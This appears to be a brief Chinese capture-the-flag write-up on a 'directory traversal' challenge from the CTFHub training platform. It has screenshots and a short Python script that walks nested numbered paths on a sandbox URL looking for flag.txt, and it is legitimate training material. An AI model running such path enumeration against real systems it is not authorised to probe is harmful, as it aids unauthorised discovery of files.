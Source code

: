 ## 目录遍历
### 1、靶机环境
![image](https://github.com/498946975/Security/blob/master/CTFHub/images/010.png)
### 2、python脚本
```python
import requests

url = "http://challenge-dadf3a02793869a2.sandbox.ctfhub.com:10800/flag_in_here" ## ftp服务器地址

for i in range(5):  ## 目录名称列表
    for j in range(5): ## 目录名称列表
        url_final = url + "/" + str(i) + "/" + str(j)
        r = requests.get(url_final)
        r.encoding = "utf-8"
        get_file = r.text
        if "flag.txt" in get_file:  # 找到需要到文件
            print(url_final)        # 打印文件位置
    
```
![image](https://github.com/498946975/Security/blob/master/CTFHub/images/011.png)